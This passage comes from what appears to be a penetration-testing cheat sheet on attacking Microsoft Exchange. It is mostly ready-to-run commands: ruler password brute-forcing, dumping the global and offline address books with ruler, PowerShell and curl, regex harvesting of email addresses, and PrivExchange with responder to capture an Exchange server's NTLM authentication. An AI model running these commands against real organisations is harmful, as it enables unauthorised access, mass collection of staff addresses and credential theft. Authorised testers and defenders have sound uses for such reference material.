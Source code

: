 > using [ruler](https://github.com/sensepost/ruler) :

```
./ruler -domain $domain --insecure brute --userpass $userpass.txt -v
```

#### GAL and OAB Extraction

**GAL (Global Address Book) Extraction**

```
./ruler -k -d $domain -u $user -p $password -e user@example.com --verbose abk dump -o email_list.txt
```

> using powershell :

```
PS C:\> Get-GlobalAddressList -ExchHostname mx.megacorp.com -UserName $domain\$user -Password $password -OutFile email_list.txt
```

**OAB (Offline Address Book) Extraction**

_extract OAB.XML file which contains records_

```
curl -k --ntlm -u '$domain\$user:$password' https://$domain/OAB/$OABUrl/oab.xml > oab.xml

cat oab.xml |grep '.lzx' |grep data
```

_extract LZX compressed file_

```
curl -k --ntlm -u '$domain\$user:$password' https://$domain/OAB/$OABUrl/$OABId-data-1.lzx > oab.lzx

./oabextract oab.lzx oab.bin && strings oab.bin |egrep -o "(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])" | sort -u > emails.txt
```

> using [oaburl.py](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438) :

```
./oaburl.py $domain/$user:$password@domain.com -e valid@domain.com
```

#### PrivExchange

[**PrivExchange**](https://github.com/dirkjanm/PrivExchange) **use PushSubscription Feature, a user is able to capture the NTLM authentication data of an Exchange server With a simple call to the "PushSubscription" API**

```
responder -I eth0 -Av
python3 privexchange.py -d $domain -u $user -p $password -ah -ap '/test/test/test' mx.server.com --debug
```
